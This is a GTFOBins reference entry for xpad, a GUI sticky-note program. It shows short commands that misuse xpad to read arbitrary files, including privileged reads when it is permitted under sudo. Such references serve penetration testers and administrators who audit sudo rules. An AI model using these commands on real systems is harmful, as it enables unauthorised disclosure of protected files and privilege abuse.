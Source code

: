 # GTFOBin: xpad

This is a GUI application. The file content is displayed in a sticky note.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
xpad -f "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo xpad -f "$LFILE"
```